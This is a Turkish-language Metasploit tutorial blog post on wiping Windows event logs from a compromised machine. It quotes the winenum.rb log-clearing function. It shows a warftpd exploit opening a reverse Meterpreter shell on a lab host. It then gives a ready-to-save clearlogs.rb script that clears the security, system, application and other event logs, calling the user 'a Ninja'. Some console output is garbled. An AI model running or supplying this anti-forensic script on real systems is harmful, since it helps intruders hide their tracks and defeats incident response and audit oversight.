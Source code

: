 ```yaml
---
draft: false

title:  'MSF Log Yönetimi'
date: '2017-06-05T13:21:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı\_winenum\_script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında\_/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb\_adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece\_# Function for clearing all event logs\_kısmıyla ilgileneceğiz." 
 
url:  /tr/msf-log-yonetimi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.


```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs **=** **[**
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  **]**
  print_status**(**"Clearing Event Logs, this will leave and event 517"**)**
  begin
    evtlogs.each **do** |evl|
      print_status**(**"\tClearing the #{evl} Event Log"**)**
      log **=** @client.sys.eventlog.open**(**evl**)**
      log.clear
      file_local_write**(**@dest,"Cleared the #{evl} Event Log"**)**
    end
    print_status**(**"All Event Logs have been cleared"**)**
  rescue ::Exception **=>** e
    print_status**(**"Error clearing Event Log: #{e.class} #{e}"**)**

  end
end
```



Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.



Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.


<!-- wp:image {"id":1001,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-00.png" alt="" class="wp-image-1001" /></figure>
<!-- /wp:image -->


Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.



## Bu kısımda deneme yapıyoruz



Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.


```bash
msf exploit**(**warftpd_165_user**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 2 opened **(**172.16.104.130:4444 -> 172.16.104.145:1246**)**
```



Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.


```bash
meterpreter **>** irb
**[*********]** Starting IRB shell
**[*********]** The 'client' variable holds the meterpreter client
**>>** log **=** client.sys.eventlog.open**(**'system'**)**
**=>** #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"**=>**#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```



Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.


```bash
**>>** log.clear
**=>** #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```


<!-- wp:image {"id":1002,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-01.png" alt="" class="wp-image-1002" /></figure>
<!-- /wp:image -->


Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.



## Tüm Logları Temizleme



Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.


```bash
evtlogs **=** **[**
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        **]**
print_line**(**"Clearing Event Logs, this will leave an event 517"**)**
evtlogs.each **do** |evl|
        print_status**(**"Clearing the #{evl} Event Log"**)**
        log **=** client.sys.eventlog.open**(**evl**)**
        log.clear
end
print_line**(**"All Clear! You are a Ninja!"**)**
```



Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.


```bash
msf exploit**(**warftpd_165_user**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 1 opened **(**172.16.104.130:4444 -> 172.16.104.145:1253**)**

meterpreter **>** run clearlogs
Clearing Event Logs, this will leave an event 517
**[*********]** Clearing the security Event Log
**[*********]** Clearing the system Event Log
**[*********]** Clearing the application Event Log
**[*********]** Clearing the directory service Event Log
**[*********]** Clearing the dns server Event Log
**[*********]** Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter **>** exit
```



Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.


<!-- wp:image {"id":1003,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-03.png" alt="" class="wp-image-1003" /></figure>
<!-- /wp:image -->


Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
